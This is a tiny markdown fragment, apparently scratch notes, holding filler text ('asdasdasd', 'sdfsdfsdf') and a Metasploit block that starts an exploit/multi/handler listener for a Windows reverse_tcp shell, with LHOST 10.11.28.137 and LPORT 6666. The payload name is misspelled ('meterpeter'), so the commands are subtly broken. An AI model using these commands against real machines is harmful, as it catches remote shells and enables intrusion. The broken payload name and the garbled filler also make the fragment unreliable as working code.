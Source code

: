 
```
asdasdasd
```
sdfsdfsdf
 ```
 use exploit/multi/handler
 set payload windows/meterpeter/reverse_tcp
 set LHOST 10.11.28.137
 set LPORT 6666
 exploit
 ```